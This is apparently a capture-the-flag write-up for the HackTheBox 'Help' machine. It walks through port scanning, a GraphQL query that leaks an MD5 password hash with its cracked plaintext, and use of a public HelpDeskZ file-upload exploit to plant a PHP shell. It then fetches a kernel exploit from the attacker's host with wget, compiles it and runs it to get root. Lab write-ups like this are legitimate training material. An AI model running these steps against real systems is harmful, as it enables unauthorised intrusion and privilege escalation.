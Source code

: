 ```yaml
---
title: "HackTheBox: Help Write Up!"
date: 2019-04-02
tags: [Hackthebox, ctf, writeup, Help]
excerpt: "HackTheBox: Help Write Up!"
header:
  image: "assets/images/hackthebox-images/carrier-hackthebox-header.png"

---
```


# Enumeration:

## Nmap:

```console
root@HassanKhan:~# nmap -p- 10.10.10.121 --max-retries 0 -o help-max.nmap
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-21 14:42 EST
Warning: 10.10.10.121 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.121
Host is up (0.21s latency).
Not shown: 38798 filtered ports, 26735 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```console
root@HassanKhan:~# nmap -p- 10.10.10.121 -T4 -Pn -o help-all.nmap
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-21 14:43 EST
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 2.40% done; ETC: 14:54 (0:10:52 remaining)
Warning: 10.10.10.121 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.121
Host is up (0.22s latency).
Not shown: 65525 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
3000/tcp  open     ppp
8095/tcp  filtered unknown
15523/tcp filtered unknown
17954/tcp filtered unknown
17965/tcp filtered unknown
43723/tcp filtered unknown
60785/tcp filtered unknown
62421/tcp filtered unknown
```

## Fetching credentials from graphql Port 3000:

Index page:

```console
root@HassanKhan:~# curl "http://10.10.10.121:3000/" && echo -e "\n"
{"message":"Hi Shiv, To get access please find the credentials with given query"}
```

I ran dirsearch and was able to find the endpoing query. After looking at the syntax of graphql that how it works, I was finally able to query the right syntax and was able to fetch credentials from that.

```console
root@HassanKhan:~# curl -s "http://10.10.10.121:3000/graphql?query=query%20%7B%20%0A%20%20user%7Busername:password%7D%0A%7D&variables=%7B%7D" | jq
{
  "data": {
    "user": {
      "username": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```
Decrypt the md5 hash:

5d3c93182bb20f07b994a7f617e99cff : godhelpmeplz

Additionally, I have used extension that helped me to query the right syntax of graphql. That extension is “Altair Graphql Client”.

## Port 80:

Nikto scan:

```console
root@HassanKhan:~# nikto -h 10.10.10.121

Nikto v2.1.6/2.1.5
Target Host: 10.10.10.121
Target Port: 80
GET Server leaks inodes via ETags, header found with file /, fields: 0x2c37 0x57ff4a041d89c
GET The anti-clickjacking X-Frame-Options header is not present.
GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
OPTIONS Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
OSVDB-3268: GET /admin/: Directory indexing found.
OSVDB-3092: GET /admin/: This might be interesting...
GET Cookie PHPSESSID created without the httponly flag
GET Cookie lang created without the httponly flag
OSVDB-3092: GET /support/: This might be interesting...
OSVDB-3233: GET /icons/README: Apache default file found.
```

Nothing interesting expect the /admin/ directories. Running dirsearch on port 80 brought /support/
 directory in front of me which was helpdeskz.

 Looking if there's any exploit available for the helpdeskz.

## Exploitation:

Searching for public exploits:

```console
root@HassanKhan:~# searchsploit helpdeskz
HelpDeskZ 1.0.2 - Unauthenticated Arbitrary File Upload
HelpDeskZ < 1.0.2 - Authenticated SQL Injection / Unauthorized File
```

 So we found 2 exploits so far. great! As, helpdeskz is open-source, we can check that how does file upload work.
 @ https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/view_tickets_controller.php

 To made the exploit work, I had to do some modifications in the exploit that were:
 + adjusting the time that is
 currentTime = int(time.time() + 7200) and
 + changing the loop
 for x in range(0, 500): // 500 all most 8 mins

You have to do modifications to the exploit code according to the difference between your time and the server response time. anyways, this could be done manually as well. Manual steps will be:

+ Uploaded php file splint3r7.php
+ Extracted the data header from response
+ converted the date header into seconds timestamp
@ https://www.epochconverter.com/
+ converted md5(filename.phptimestamp)
+ Found the shell on server with directory:
+ 10.10.10.121/support/uploads/tickets/md5string.php

Finally got the user flag!

## Privilege Escalation:

```console
$ uname -a
linux 4.4.0-116-generic
```

Exploit:
@ https://www.exploit-db.com/exploits/44298

```console
help@help:/tmp$ wget 10.10.14.49:1330/exploit1337.c
help@help:/tmp$ gcc exploit1337.c -o exploit1337h
gcc exploit1337.c -o exploit1337h
help@help:/tmp$ ./exploit1337h
./exploit1337h
id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
cd /root/
ls -la
cat root.txt
b7fe6082dcdf0c1b1e02ab0d9daddb98
```

And we just owned the root ;)
